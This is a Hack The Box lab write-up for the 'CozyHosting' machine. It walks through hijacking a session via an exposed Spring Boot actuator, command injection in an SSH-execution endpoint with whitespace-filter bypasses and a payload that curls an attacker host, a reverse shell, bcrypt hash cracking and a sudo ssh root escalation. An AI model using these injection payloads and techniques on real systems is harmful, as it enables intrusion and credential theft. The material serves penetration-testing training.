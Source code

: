 # CozyHosting(HTB)

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/0.png)

## NMAP

```json
# Nmap 7.94 scan initiated Mon Sep  4 01:16:04 2023 as: nmap -sC -sV -oA nmap/cozyhosting 10.10.11.230
Nmap scan report for 10.10.11.230
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
5555/tcp open  freeciv?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  4 01:18:34 2023 -- 1 IP address (1 host up) scanned in 149.32 seconds
```

## RECON

We see that 3 ports are opened (22,80 and 5555). Let’s first visit port 80 (HTTP), the banner from NMAP tells us it is an `nginx` server running on `Ubuntu`. Going to [http://10.10.11.230](http://10.10.11.230) we see 

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/1.png)

This website seems to be some sort of Hosting Provider. Hovering over all the buttons tells us that only `Login` actually leads somewhere. Either way let’s run a directory bruteforce to look for paths on this website.

### Directory Brute force

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/2.png)

Looking at the results we see a few interesting endpoints. `/admin` leads to a 401 and `/error` leads to a 505. Let’s navigate to `/error` to checkout the error page and see if it will reveal the framework that is being used. 

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/3.png)

`“Whitelabel Error Page”`  From doing Bug Bounty, I’ve actually seen this error page before and immediately identified that this is an error page for the Spring Boot JAVA framework. A quick google search will also show us that this is a Spring Boot error page.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/4.png)

Now that we know that it is running Spring Boot we can try and brute force the `/actuator` endpoints for Spring Boot.  TLDR of the `/actuator` endpoint is that it is a debugging endpoint for developers.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/5.png)

> Source: [https://www.baeldung.com/spring-boot-actuators](https://www.baeldung.com/spring-boot-actuators)
> 

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/6.png)

We see that we get a bunch of hits from our directory brute force. Going to `/actuator/sessions` reveals the session tokens for all the users of the website.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/7.png)

With this information, we can perform a “Session Hijacking” Attack  and login as the user “kanderson”

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/8.png)

We can change our cookie to the victim’s cookie. Now let’s try accessing the `/admin` endpoint again.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/9.png)

We see that we now have access to the Admin Dashboard.

## Foothold

Looking at the Admin Dashboard, we find a functionality that seems to be executing a shell command.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/10.png)

Let’s open up Burp and look at the request that is made when we use this functionality .

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/11.png)

We can see that a POST request gets sent to the endpoint `/executessh` and it takes two parameters host and username. From here I pretty much was sure that a shell command was being executed in the backend. The command would probably look something like

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/12.png)

Our user input is being inserted into a shell command. If we could escape out of the ssh command and sneak in our own command we will be able to achieve command injection. Let’s try changing our POST request data to

```bash
host=127.0.0.1&username=;curl 10.10.16.10:8000;
```

When this request gets sent. We should expect the backend shell command will be transformed to

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/13.png)

Let’s send up a python http server on port 8000 to see if we sucessfully injected the curl command on the server.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/14.png)

However, when we send the request we see that whitespaces are not allowed! But we can bypass this in multiple ways. First, we could use ${IFS}.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/15.png)

Second way is using something called “brace expansion”. I actually learned about this technique from ippsec’s video on this box. Be sure to check out ippsec’s video on this box he covers the box much better than I do.

[https://www.youtube.com/watch?v=okTl6kWrncg](https://www.youtube.com/watch?v=okTl6kWrncg)

Brace Expansion

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/16.png)

Brace Expansion will turn this command into 

```bash
ssh 127.0.0.1@;curl 10.10.16.10:8000;
```

> Official GNU documentation of Brace Expansion:[https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html)
> 

Now we can create a reverse shell on the box.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/17.png)

## USER

we see that we are the app user on the box. If we run `ls` we can see the jar file of the web app. Let’s move it onto your machine and extract it. After, extracting it we see two files.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/18.png)

Navigating to the BOOT-INF file which usually contains properties about the Spring Boot application. We see an [`application.properties`](http://application.properties) file which contains the postgres database password.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/19.png)

Let’s check if postgres is running on the box. We run `ss -ltop`

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/20.png)

We see that postgresql is indeed running. Let’s try logging into postgres with the password.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/21.png)

We get logged into the postgres database and we can see 4 databases. We are interested in the cozyhosting databse. So let’s have a look at the contents of the database.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/22.png)

We find the password hash of the admin and kanderson user. Let’s try to crack these password on our machine using hashcat. Judging from the `$2a$` we can guess that this is a bcrypt hash, so let’s try cracking this hash with mode 3200(bcrypt).

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/23.png)

We get the password of the admin user `manchesterunited` . Let’s try logging into the josh user.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/24.png)

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/25.png)

## Root

We get logged into the josh user. Now let’s run `sudo -l` to see if we have any easy win on privilege escalation.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/26.png)

We see that we can run `/usr/bin/ssh *` as the root user. Indicating that we can run any ssh  command we want as root. Let’s go to gtfobin to look for a payload

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/27.png)

> Source: [https://gtfobins.github.io/gtfobins/ssh/](https://gtfobins.github.io/gtfobins/ssh/)
> 

We run the command and we get a shell as root.

![Untitled](CozyHosting(HTB)/assets/images/cozyhosting/28.png)
